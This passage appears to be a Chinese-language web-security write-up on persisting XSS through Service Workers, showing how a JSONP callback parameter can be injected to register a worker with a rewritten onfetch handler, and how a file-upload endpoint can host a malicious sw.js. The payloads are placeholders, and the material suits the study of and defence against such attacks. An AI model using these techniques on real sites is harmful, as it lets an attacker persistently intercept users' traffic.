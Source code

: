 尽管SW的利用条件非常苛刻，但却正好和jsonp的接口相符，可以说是非常契合了。

一个普通的jsonp接口大概是这样
```
https://example.com/jsonp.php?callback=test

HTTP/1.1
200 OK
Content-Type:
text/javascript; charset=UTF-8
[...]

test({[...]})
```

test点我们可控，那么我们可以通过配合SW来利用

```
xss点

<script>
navigator.serviceWorker.register("/jsonp.php?callback=onfetch=e=>console.log('test')//");
</script>
```

然后jsonp接口会返回

```
https://example.com/jsonp.php?callback=onfetch=e=>console.log('test')//

HTTP/1.1
200 OK
Content-Type:
text/javascript; charset=UTF-8
[...]

onfetch=e=>console.log('test')//({});
```

这样一来，SW成功被注册，onfetch接口还被我们重写为利用代码，持久化利用

# 2、文件上传接口 #

当站内存在文件上传接口的时候，或许我们可以上传一个js文件。

就好象是这样
```
<script>
var
formData = new FormData();
formData.append("csrf_token",
"secret");
var
sw = "/* [SW_CODE] */";
var
blob = new Blob([sw], { type: "text/javascript"});
formData.append("file",
blob, "sw.js");
fetch("/upload",
{method: "POST", body: formData}).then(/* Register SW */);
</script>
```


  [2]: http://static.zybuluo.com/LoRexxar/9ikc1hbn085eecbpip9k4qhs/image.png